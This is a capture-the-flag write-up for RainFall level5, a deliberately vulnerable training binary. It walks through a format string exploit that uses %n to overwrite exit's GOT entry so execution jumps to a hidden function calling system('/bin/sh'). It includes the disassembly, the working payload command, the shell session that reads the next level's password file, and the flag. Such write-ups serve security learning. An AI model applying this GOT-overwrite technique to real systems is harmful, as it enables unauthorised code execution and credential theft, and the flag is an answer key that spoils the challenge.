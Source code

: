 # Level5

## Analysis

You can find the decomp of the level [here](./level5_decomp.c). `main()` calls a function `n()` which uses `gets()` and `printf()`. There is also a funcion `o()` which isn't called but which contains a call to `system("/bin/sh")`.

We might be able to replace one of the `exit()` call!

## Exploit

```bash
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb)
```

When using GDB we can use `disas n` to get the asm of `n()` which will give us the address of plt exit. Now this address isn't what we're looking for since it's the address that points to another function that jumps to the real `exit()` as you can see when we disas the address of `exit@plt`.

Now `0x8049838` is the address we want to modify! 

To find the address we want to jump to, we will need to find the address of `o()` with `objdump -d level5`:

```bash
080484a4 <o>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       83 ec 18                sub    $0x18,%esp
 80484aa:       c7 04 24 f0 85 04 08    movl   $0x80485f0,(%esp)
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt>
 80484b6:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>
```

`080484a4` to decimal is `134513828`, this is what we need to write to our address!

Now to find the address offset where we need to write, we'll use the same concept as the previous exerices:

```bash
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%x " * 10' | ./level5
8200 b7fd1ac0 b7ff37d0 8049838 25207825 78252078 20782520 25207825 78252078 20782520
```

So this is out fourth offset!

## Payload

This is what our payload will look like:

`[address] + [adress to write]`

<details>
  <summary>Spoiler</summary>

  We will write using the same trick as before `[offset$n]`:

  ```bash
  level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' > /var/crash/exploit
  level5@RainFall:~$ cat /var/crash/exploit - | ./level5
  ```

  And we will be greeted a prompt:

  ```bash
  whoami
  level6
  cat /home/user/level6/.pass
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
  ```
</details>

## Flag

d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
